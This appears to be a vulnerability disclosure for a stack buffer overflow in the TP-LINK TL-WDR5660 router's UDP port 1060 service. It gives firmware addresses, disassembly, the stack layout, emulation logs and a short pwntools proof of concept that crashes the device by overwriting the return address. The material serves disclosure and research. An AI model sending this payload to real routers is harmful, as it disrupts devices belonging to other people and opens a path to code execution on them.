







# Overview

Details of the vulnerability found in the TP-LINK router TL-WDR5660.

| Firmware Name | Firmware Version | Download Link |
| -------------- | ---------------- | ------------- |
| TL-WDR5660 | V2.0 upgrade software 20190827_2.5.124 | https://service.tp-link.com.cn/detail_download_7977.html |

Product page:

```text
https://www.tp-link.com.cn/product_706.html
```



# Vulnerability details

## 1. Vulnerability trigger Location

A stack-based buffer overflow vulnerability exists in the `MmtAtePrase` function within `apps_wlanReload` in the firmware. The vulnerable function is located at `0x800F4B94`, and the vulnerable code path reaches the `spliter` function at `0x801D0568` without proper boundary checking. A specially crafted UDP packet can trigger this vulnerability.

The call originates from `apps_wlanReload` at `0x8004B404`, which checks for the `"iwpriv"` prefix via `strncmp` before dispatching to `MmtAtePrase`.

Relevant symbols:

| Function | Address |
| --- | --- |
| `recvfrom` | `0x801BE910` |
| `strncmp` | `0x801D0754` |
| `spliter` (strsep) | `0x801D0568` |
| `strlen` | `0x801D0730` |
| `memset` | `0x801D031C` |
| `apps_wlanReload` | `0x80049E48` |
| `MmtAtePrase` | `0x800F4B94` |
| `iwprivShell` | `0x800F48F0` |
| `cmdWioctlParser` | `0x8004CF68` |

**Call chain:**

```
UDP port 1060
  └─ apps_wlanReload()                      @ 0x80049E48
       ├─ recvfrom(sock, buf, 3072, ...)    @ 0x8004B3C4
       ├─ strncmp(buf, "iwpriv", 6)         @ 0x8004B3E0
       │    ├── match → MmtAtePrase()       @ 0x8004B404 (JAL)
       │    └── no match → TPD- protocol handler
       └─ select() loop
```

**Call site disassembly (Capstone):**

```asm
; apps_wlanReload: iwpriv check and MmtAtePrase dispatch
0x8004b3c4:  jal    0x801be910          ; recvfrom(sock, buf, 3072, ...)
0x8004b3cc:  blez   $v0, 0x8004b41c     ; error check
0x8004b3d4:  lui    $a1, 0x8027
0x8004b3d8:  addiu  $a1, $a1, 0x7f08   ; a1 = "iwpriv" @ 0x80277F08
0x8004b3e0:  jal    0x801d0754          ; strncmp(data, "iwpriv", 6)
0x8004b3e4:  addiu  $a2, $zero, 6       ; n = 6
0x8004b3e8:  bnez   $v0, 0x8004b420     ; no match → TPD- handler
; --- iwpriv matched ---
0x8004b400:  move   $a3, $s3
0x8004b404:  jal    0x800f4b94          ; *** MmtAtePrase(0x424, data, a2, a3) ***
0x8004b408:  addiu  $a0, $zero, 0x424   ; a0 = 0x424 = port 1060
```



## 2. Vulnerability Analysis

- This vulnerability occurs when the AT command service (`apps_wlanReload`) processes incoming UDP packets on port `1060`. The program can receive up to `3072` bytes of data, and when the packet begins with `"iwpriv"`, it enters the `MmtAtePrase` handling logic.
- In `MmtAtePrase`, the input string is split by `'\n'` via `spliter` and stored in a fixed-size stack buffer of only `100` bytes (`0x64`). The function allocates a total stack frame of `0x98` (152) bytes, with the return address `$ra` stored at `sp+0x90`, which is only 120 bytes from the buffer start. If the incoming token exceeds the buffer size, the overflow corrupts saved registers (`$s0`–`$s3`) and the return address (`$ra`), leading to a crash when `jr $ra` executes.

**MmtAtePrase stack layout:**

```
sp+0x00:  (local vars)        \
sp+0x18:  buffer[0x64=100]     |-- 100-byte buffer
sp+0x7c:  (padding)            |
sp+0x80:  $s0                 |-- corrupted at offset 104+
sp+0x84:  $s1                 |
sp+0x88:  $s2                 |
sp+0x8c:  $s3                 |
sp+0x90:  $ra                 |-- corrupted at offset 120+ → CRASH
sp+0x94:  (padding)
```

**MmtAtePrase decompiled pseudo-code:**

```c
void MmtAtePrase(u16 port, char *data, int a2, int a3) {
    char buffer[0x64];  // sp+0x18, only 100 bytes!

    memset(buffer, 0, 0x64);
    while (data != NULL) {
        memset(buffer, 0, 0x64);
        char *token = spliter(data, "\n", buffer);  // ← NO BOUNDS CHECK!
        // spliter copies from data up to '\n' into buffer
        // buffer is only 100 bytes, token can be up to ~3070 bytes

        int len = strlen(token);
        data = token;  // points to next token
        if (len >= 8)
            iwprivShell(port, buffer, a2, a3, 0);
        else
            iwprivShell(port, buffer, a2, a3, 1);
    }
    return;  // jr $ra — $ra may be overwritten with attacker data
}
```




# POC

## python script

```python
from pwn import *

r = remote("192.168.1.1", 1060, typ="udp")
payload = "iwpriv".ljust(3070) + "\n"
r.send(payload)
```

# Vulnerability Verification Screenshot

## wdr5660

- Use `binwalk -Me` to extract the `400_5660` file from the original firmware. The firmware's operating system is VxWorks 5.5.1, and this file is the main binary (MIPS little-endian, load address 0x80001000). The symbol table file (`symbols.txt`, 6564 symbols) was used during analysis. Then, we used a self-developed emulation tool specifically designed for VxWorks devices to start the service and perform validation.

**Emulation command:**

```bash
myfuzzer_mipsel \
  --firmware ./400_5660 \
  --entry 0x80001000 \
  --arch mipsel \
  --load-addr 0x80001000 \
  --exec-min 0x80001000 \
  --exec-max 0x81000000 \
  --hook-config ./hooks_iwpriv_overflow.json \
  --test \
  --input-file ./payload.txt \
  --target-port 1060 \
  --socket-type udp
```

**Verification result (Hook method — Jmp2address at MmtAtePrase entry):**

```
[INFO] Loaded hook: "Jmp2address" at 0x800f4b94
[INFO] Redirecting recvfrom call at 0x801be910
[INFO] recv: recv content is iwpriv...
[INFO] recvfrom: wrote 3071 bytes of fuzz data to guest memory
[INFO] Jmp2address call at 0x800f4b94, jumping to 0x47474746
[INFO] Successfully jumped to address 0x47474746 at 0x800f4b94
---
IN:
0x80000000:  lui  k0,0x8000          ← MIPS exception handler
```

**Verification result (Natural overflow — no crash hook):**

```
IN:
0x800f4c54:  jr   $ra                 ← MmtAtePrase returns, $ra overwritten
---
[INFO] qemu.run() returned: Ok(Crash)
[INFO] Emulation exited with reason: Crash
[INFO] Emulation exited with kind: Crash
```

The payload `"iwpriv".ljust(3070) + "\n"` (3071 bytes) was injected into the UDP 1060 recvfrom buffer. The `spliter` function copies the 3070-byte token into the 100-byte stack buffer, overwriting `$ra` with `0x20202020` (ASCII spaces). When `MmtAtePrase` executes `jr $ra`, the corrupted return address triggers a MIPS exception at `0x80000000`, confirming the stack overflow.





# Discoverer

m202472188@hust.edu.cn HUST IOTS&P lab
